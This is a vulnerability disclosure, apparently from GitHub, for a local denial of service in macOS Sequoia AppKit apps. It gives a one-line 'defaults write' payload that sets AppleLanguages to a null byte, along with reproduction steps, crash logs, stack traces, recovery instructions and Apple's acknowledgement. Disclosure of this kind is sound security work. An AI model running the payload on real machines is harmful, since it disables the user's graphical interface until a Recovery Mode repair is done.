 # Denial-of-Service on AppKit-based apps via null pointer dereference on global localization variables

## Summary

macOS Sequoia 15.7 and lower are vulnerable to a local Denial of Service vulnerability via a null pointer dereference by abusing the format used to store variables. This is a regression for CVE-2025-24199. 

## Explanation

The vulnerability is triggered when the `AppleLanguages` global variable, which takes arrays as inputs, is set with the syntax that would be used for a string-based variable. The correct way to set this variable is

`defaults write -g AppleLanguages '("en_US")'`

, while the vulnerable way abused non-printable characters and the `eval()` built-in Bash/ZSH function

`$(echo "defaults write -g AppleLanguages '(\"\\0\")'")`

Note that we are following the syntax for setting up an array. 

This value is then stored on the following .plist files:
* `$HOME/Library/Preferences/.GlobalPreferences.plist`
* `$HOME/Library/Preferences/.GlobalPreferences_m.plist`

After setting the global variable to any value (`\0` was used) and upon debugging a process like `System Settings.app`, the behavior detected is that the `CFPreferencesCopyValue` function on `CoreFoundation.dylib` will return the payload as a NSCFString value. Immediately after, `count` would be called on it with `objc_msgSend`. This leads to a segmentation fault caused by a null pointer dereference. Below is an extract of the fault from a crash log, also attached to this report.

```
"vmRegionInfo" : "0x2aea is not in any region. Bytes before following region: 4305884438\n REGION TYPE START - END [ VSIZE] PRT\/MAX SHRMOD REGION DETAIL\n UNUSED SPACE AT START\n---> \n __TEXT 100a6c000-100ba8000 [ 1264K] r-x\/r-x SM=COW \/System\/Applications\/System Settings.app\/Contents\/MacOS\/System Settings",

"exception" : {"codes":"0x0000000000000001, 0x0000000000002aea","rawCodes":[1,10986],"type":"EXC_BAD_ACCESS","signal":"SIGSEGV","subtype":"KERN_INVALID_ADDRESS at 0x0000000000002aea"},

"termination" : {"flags":0,"code":11,"namespace":"SIGNAL","indicator":"Segmentation fault: 11","byProc":"exc handler","byPid":768},

"vmregioninfo" : "0x2aea is not in any region. Bytes before following region: 4305884438\n REGION TYPE START - END [ VSIZE] PRT\/MAX SHRMOD REGION DETAIL\n UNUSED SPACE AT START\n---> \n __TEXT 100a6c000-100ba8000 [ 1264K] r-x\/r-x SM=COW \/System\/Applications\/System Settings.app\/Contents\/MacOS\/System Settings",

"extMods" : {"caller":{"thread_create":0,"thread_set_state":0,"task_for_pid":0},"system":{"thread_create":0,"thread_set_state":0,"task_for_pid":0},"targeted":{"thread_create":0,"thread_set_state":0,"task_for_pid":0},"warnings":0},
```

# Steps to reproduce

1. From the Terminal, change the AppleLanguages global variables with the following payload:

`$(echo "defaults write -g AppleLanguages '(\"\\0\")'")`

2. Open `System Settings.app` or reload the Dock application from the Apple logo menu.

3. The payload will be executed.

## Reproduction from the `lldb` debugger

1. Start `lldb` with the `System Settings.app` binary as a parameter.

`ldb /System/Applications/System\ Settings.app/Contents/MacOS/System\ Settings`

2. On another terminal, change the AppleLanguage global variable

`$(echo "defaults write -g AppleLanguages '(\"\\0\")'")`

3. Create breakpoint at the CreatePlist function, which is right before the faulting instruction.

`breakpoint set --name createPlist`

4. Run the application and step through the few instructions before hitting the faulting instruction.

# Recovery steps

1. Reboot the device into Recovery Mode
2. Unlock the user and hard drive
3. Remove the following files from `/Volumes/Data/Users/username/Library/Preferences/`:
* `./ByHost/com.apple.loginwindow.plist`
* `./loginwindow.plist`
* `/Volumes/Data/System/Volumes/Data/private/var/root/Library/Preferences/.GlobalPreferences.plist`

4. Shutdown or restart the device.

# Expected behavior
Under normal circumstances, the macOS GUI should behave normally and open any AppKit-based application, like `System Settings.app`.
# Actual behavior
An UI corruption happens in form of the Dock application being abruptly terminated, and the UI ending up disabled to any user input after a cold reboot.
# Crash dump
The crash happens at the `+[NSLocale(NSLocale_LanguageExtras) __effectiveLanguageForBundle:]` method.

```
0 CoreFunction 0x000000018176b2ec __exceptionPreprocess + 176
1 libobjc.A.dylib 0x0000000181252788 objc_exception_throw + 60
2 CoreFoundation 0x000000018181d56c -[NSObject (NSObject) __retain_OA] + 0
3 CoreFoundation 0x00000001816d4f3c _forwarding + 1580
4 CoreFoundation 0x00000001816d4850 _CF_forwarding_prep_0 + 96
5 Foundation 0x0000000182f25770 +[NSLocale(NSLocale_LanguageExtras) __effectiveLanguageForBundle:] + 88
6 IconServices 0x000000018fbdd380 +[NSLocale (IconServicesAdditions) _IS_currentLanguageDirection] + 32
7 IconServices 0x000000018fb9a8b0 -[ISImageDescriptor initWithSize:scale:] + 108
8 AppKit 0x000000018fb9a8b0 NSISIconImageRepGetCGImage + 112
9 AppKit 0x0000000185066014 __74-[NSImageRep drawInRect:fromRect:operation:fraction:respectFlipped:hints:]_block_invoke + 612
10 AppKit 0x0000000185066754 -INSImageRep drawInRect: fromRect: operation: fraction:respectFlipped:hints:] + 628
11 AppKit 0x0000000185570004 __71-[NSImage drawInRect: fromRect:operation: fraction:respectFlipped:hints:]_block_invoke.1392 + 680
12 AppKit 0x000000018504e700 -[NSImage _usingBestRepresentationForRect:context:hints:body:] + 148
13 AppKit 0x0000000185066434 -[NSImage drawInRect:fromRect:operation:fraction:respectFlipped:hints:] + 1328
14 AppKit 0x0000000185570354 -[NSImage drawInRect :withState:backgroundStyle:tintColor:operation:fraction:flip:hints:] + 312
15 AppKit 0x0000000185477d90 __22-[NSControl drawRect:]_block_invoke + 96
16 AppKit 0x000000018506d9a4 -[NSControl drawRect:] + 152
17 AppKit 0x000000018506d7d4 _NSViewDrawRect + 124
18 AppKit 0x00000001859fecf0 -[NSView _recursive:displayRectIgnoring0pacity:inContext:stopAtLayerBackedViews:] + 1088
19 AppKit 0x000000018506d1d8 -[NSView(NSLayerKitGlue) _drawViewBackingLayer:inContext:drawingHandler:] + 556
20 AppKit 0x00000001855a1f80 -[NSViewBackingLayer drawInContext:] + 56
21 AppKit 0x000000018530a444 block_destroy_helper.34 + 20096
22 AppKit 0x000000018532c8ec _swift_stdlib_malloc_size + 37128
23 AppKit 0x00000001852da840 _NSCDisplayListGetHash + 3072
24 AppKit 0x000000018532c4e8 _swift_stdlib malloc_size + 36100
25 AppKit 0x0000000185329e84 _swift_stdlib_malloc_size + 26272
26 AppKit 0x000000018530a0c8 block_destroy_helper.34 + 19204
27 AppKit 0x000000018530a4a4 block_destroy_helper.34 + 20192
28 AppKitv 0x0000000185521bb4 -[NSViewBackingLayer display] + 1272
29 QuartzCore 0x0000000189904428 _ZN2CA5Layer17display_if_neededEPNS_11TransactionE + 744
30 QuartzCore 0x0000000189a891a4 _ZN2CA7Context18commit_transactionEPNS_11TransactionEdPd + 512
31 QuartzCore 0x00000001898e6e4c _ZN2CA11Transaction6commitEv + 648
32 AppKit 0x000000018507c9d0 __62+[CATransaction(NSCATransaction) NS_setFlushesWithDisplayLinkJ_block_invoke + 272
33 AppKit 0x0000000185a3c208 ___NSRunLoopObserverCreateWithHandler_block_invoke + 64
34 CoreFoundation 0x00000001816f587c __CFRUNLOOP_IS_CALLING_OUT_TO_AN_OBSERVER_CALLBACK_FUNCTION__ + 36
35 CoreFoundation 0x00000001816f5768 __CFRunLoopDoObservers + 536
36 CoreFoundation 0x00000001816f4d94 __CFRunLoopRun + 776
37 CoreFoundation 0x00000001816f4434 CFRunLoopRunSpecific + 608
38 HIToolBox 0x000000018be9819c RunCurrentEventLoopInMode + 292
39 HIToolBox 0x000000018be97fd8 ReceiveNextEventCommon + 648
40 HIToolBox 0x000000018be97d30 _BlockUntilNextEventMatchingListInModeWithFilter + 76
41 AppKit 0x0000000184f53d68 _DPSNextEvent + 660
42 AppKit 0x0000000185749808 -[NSApplication(NSEventRoutig) _nextEventMatchingEventMask:untilDate:Mode:dequeue:] + 700
43 AppKit 0x0000000184f4709c -[NSApplication run] + 476
44 AppKit 0x0000000184f1e2e0 NSApplicationMain + 880
45 dyld 0x000000018128e0e0 start + 2360
```

Details of the logged error with the `__NSCFString` memory address that can store a particular payload:

```
"exceptionReason" : {"arguments":["__NSCFString","count","0x15d1063f0"],"format_string":"-[%s %s]: unrecognized selector sent to instance %p","name":"NSInvalidArgumentException","type":"objc-exception","composed_message":"-[__NSCFString count]: unrecognized selector sent to instance 0x15d1063f0","class":"NSException"}
```

# Proof of Concept
Proof of concept video with impact and recovery demo available [here](https://youtu.be/OiqrZ2BIBLU).

# Apple acknowledgement

https://support.apple.com/en-us/125110

